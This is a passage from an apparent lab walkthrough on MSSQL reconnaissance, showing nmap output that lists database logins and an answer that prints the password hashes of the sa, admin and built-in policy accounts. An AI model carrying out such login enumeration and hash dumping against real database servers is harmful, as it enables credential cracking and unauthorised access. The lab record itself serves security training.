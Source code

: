 ```bash
|       0xdab05f73c5a136409081bc4dd4bb1173	9	2021-01-20T03:01:26	2021-01-20T03:15:57	2021-01-20T03:01:26	0	0	0	0	0	Mssqla	master	Null	us_english	0	1	0	0	0	1	0	000	0	0	0	Mssqla
|       0x09f200d8751d4040b72ae7bd09a43fe0	9	2021-01-20T03:31:14	2021-01-20T03:31:14	2021-01-20T03:31:14	0	0	0	0	0	auditor	master	Null	us_english	0	1	0	0	0	0	0	000	0	0	0	auditor
|_      0x1f80eace64083c4598d9fc5c34060c84	9	2021-01-20T03:31:47	2021-01-20T03:31:47	2021-01-20T03:31:47	0	0	0	0	0	dbadmin	master	Null	us_english	0	1	0	0	0	0	0	000	0	0	0	dbadmin

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


```

```bash
root@attackdefense:~# gvim output.txt

(gvim:610): dbind-WARNING **: 09:03:06.508: AT-SPI: Error retrieving accessibility bus address: org.freedesktop.DBus.Error.ServiceUnknown: The name org.a11y.Bus was not provided by any .service files

```

<figure><img src="../../../../../.gitbook/assets/image (26) (1) (1) (1).png" alt=""><figcaption><p>sysuser</p></figcaption></figure>

> 6. Dump MSSQL users hashes

> **Answer:**
>
> _**MSSQL**_ users hashes are:
>
> `sa:0x020011dbfaf35ba0d5e61a769e3604230fde23e5d3e01e7ff0ba3875cf75554803e2f1e1977b78de8f4489c95df9be979c02f1dec551300c109c408c427934815755b600c7e0`
>
> `##MS_PolicyEventProcessingLogin##:0x0200191cf079f310fb475527ac320aba7a4e8d5c3567bef2462b96ce8a8629b7f986ed344aa0963ac3a096da77056dad77a457644431282e2aa2c2243bc635abc6bb5f52552c`
>
> `##MS_PolicyTsqlExecutionLogin##:0x0200677385acfe08bb1119246cf20f9d17c3a0d86bbb1d48874725f2c2e0e021260b885d0ba067427e09afad9079e6759ad6497ee7f1ef3cd497d500585d7727eeba64426083`
>
> `admin:0x02003814edd67dcab815b733d877a0fe7ec3470185864bd673c7273ba76c31e000c15e9fae25a826f6ba03892e37d6a1acae17f171d21dad7b20d874ccc259bbf9fa2230b9c0`
>